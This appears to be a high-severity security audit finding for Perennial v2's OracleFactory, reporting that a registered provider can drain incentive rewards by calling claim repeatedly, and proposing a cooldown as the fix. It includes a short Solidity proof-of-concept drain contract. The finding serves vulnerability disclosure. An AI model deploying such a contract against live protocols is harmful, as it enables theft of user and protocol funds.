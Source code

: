Witty Crimson Penguin

high

# Malicious Oracle Provider can drain all rewards
Malicious Oracle Provider can claim all rewards  from the Provider Factory by spamming the `claim` function 
## Vulnerability Detail
A malicious keeper can drain the balance of the Provider Factory incentive token balance/allowance

```solidity
contract MaliciousOracleProviderFactory is IOracleProviderFactory {

    function claim(address factoryAddress) public {
        IOracleFactory temp = IOracleFactory(factoryAddress);
        temp.claim(temp.maxClaim());
    }

    function claimAll(address factoryAddress, Token token) public {
        IOracleFactory temp = IOracleFactory(factoryAddress);
        uint256 balanceBefore = token.balanceOf(address(this));
        while (token.balanceOf(factoryAddress) > 0) {
            temp.claim(temp.maxClaim());
        }
        uint256 balanceAfter = token.balanceOf(address(this));
        assert(balanceAfter > balanceBefore);
    }
}
```

## Impact
All funds belonging to the Provider Factory could be drained
## Code Snippet
https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-oracle/contracts/OracleFactory.sol#L90C5-L97C6

## Tool used

Manual Review

## Recommendation
Add a time interval with which rewards can be claimed, also removing the need to pass the amount parameter as the max claimable amount for a given period would allow the keeper to claim the predetermined amount of tokens.

```solidity
    function claim() external {
        if (!factories[IOracleProviderFactory(msg.sender)])
            revert OracleFactoryNotRegisteredError();
        if (claimTimes[msg.sender] > block.timestamp)
            revert CoolDownNotReached(claimTimes[msg.sender]);
        claimTimes[msg.sender] = block.timestamp + maxClaimPeriod;
        incentive.push(msg.sender, UFixed18Lib.from(maxClaim));
    }
```

Alternatively, I would suggest revising the rewards system; it's not quite clear how the tokenomics work. Or even better, I suggest using a streaming protocol like SabierV2 or Superfluid to avert the need for keepers to claim their rewards. Instead, these rewards can be streamed to them until they are unregistered or blacklisted from claiming any additional rewards.  Both have their drawbacks but I think the initial step would be to revise the rewards system 